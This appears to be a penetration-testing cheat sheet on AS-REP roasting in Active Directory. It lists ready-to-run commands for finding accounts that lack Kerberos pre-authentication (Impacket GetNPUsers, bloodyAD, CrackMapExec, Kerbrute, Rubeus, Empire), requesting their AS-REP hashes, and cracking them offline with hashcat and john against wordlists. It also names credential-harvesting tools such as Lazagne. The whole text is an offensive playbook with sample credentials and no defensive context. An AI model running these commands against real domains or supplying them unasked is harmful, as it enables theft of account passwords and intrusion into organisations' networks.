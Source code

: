 ### Occurs when a user account has the privilege "Does not require Pre-Authentication" set.

### This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

## Requirements:

### Accounts with the attribute DONT_REQ_PREAUTH ( PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose )

    Impacket-GetNPUsers.py domain.com\john.doe -no-pass (Retrieves a TGT)

### You can also do:

#### 1) Gather domain accounts in a list

#### 2) 

    python3 Impacket-GetNPUsers.py -dc-ip DC_IP DOMAIN/USER -outputfile /tmp/list.txt

# Enumeration (Need domain credentials)

## Windows

    Get-DomainUser -PreauthNotRequired -verbose (Powerview)

## Linux 

    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName  

## Method: Impacket GetNPUsers

    python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast (Try all the usernames in usernames.txt)

    python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast (Use domain creds to extract targets and target them)

 OR 

##### No domain credential, bruteforce names with a wordlist

    GetNPUsers.py  <Domain/> -dc-ip <IP> -usersfile <Wordlist> -format hashcat | grep -v 'Kerberos SessionError:'
    
    GetNPUsers.py  security/ -dc-ip 10.10.10.10 -usersfile names.txt -format hashcat | grep -v 'Kerberos SessionError:'

#### Valid domain credentials, extract from all domain accounts

    GetNPUsers.py <Domain>/<User>:<Password> -request -format john | grep "$krb5asrep$"

    GetNPUsers.py  security.local/moe:'Password123' -request -dc-ip 10.10.10.10 -format john | grep "$krb5asrep$"


## Alternate Method: CrackMapExec

    crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --asrep

## Alternate Method: ASREPRoast powershell module https://github.com/HarmJ0y/ASREPRoast

    Get-ASREPHash -Username VPN114user -verbose

## Alternate Method: Kerbrute

    ./kerbrute userenum <Wordlist> --dc <IP> --domain <Domain>

    kerbrute userenum names.txt --dc 10.10.10.10 --domain security.local

## Alternate Method: Rubeus

#### Extract from all domain accounts

    .\Rubeus.exe asreproast /simple

    .\Rubeus.exe asreproast /format:hashcat /outfile:C:Hashes.txt

Then crack 

# Windows

    hashcat64.exe -m 18200 c:Hashes.txt rockyou.txt

# Linux

    john --wordlist rockyou.txt Hashes.txt

    hashcat -m 18200 -a 3 Hashes.txt rockyou.txt

## Alternate Method: Empire

#### PowerShell

    powershell/credentials/rubeus

#### C#

    csharp/GhostPack/Rubeus

### More tools:

#### 1) Snaffler

#### 2) Lazagne

#### 3) Seatbelt

# Asreproasting

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `.\Rubeus.exe asreproast /outfile:asrep.txt`                 | Used to perform the Asreproast attack and save the extracted tickets to a file. |
| `hashcat -m 18200 -a 0 asrep.txt passwords.txt --force`      | Uses `hashcat` to crack AS-REP hashes that were saved in a file. |

